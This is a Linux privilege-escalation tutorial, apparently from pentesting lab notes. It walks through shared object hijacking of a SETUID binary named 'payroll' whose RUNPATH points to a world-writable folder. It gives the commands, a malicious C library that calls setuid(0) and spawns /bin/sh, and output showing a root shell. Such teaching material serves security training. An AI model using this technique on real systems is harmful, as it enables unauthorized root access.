 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Shared Object Hijacking

Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

```shell-session
user@target:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

We can use [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) to print the shared object required by a binary or shared object. `Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

```shell-session
user@target:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

We see a non-standard library named `libshared.so` listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. This can be inspected using the [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) utility.

```shell-session
user@target:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

```shell-session
user@target:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.so`, which means that it is vulnerable.&#x20;

```shell-session
user@target:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.

{% code title="src.c Library" %}
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```
{% endcode %}

The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh` when called. Compile it using [GCC](https://linux.die.net/man/1/gcc).

```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```

Executing the binary again should display the banner and pops a root shell.

```shell-session
user@target:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```
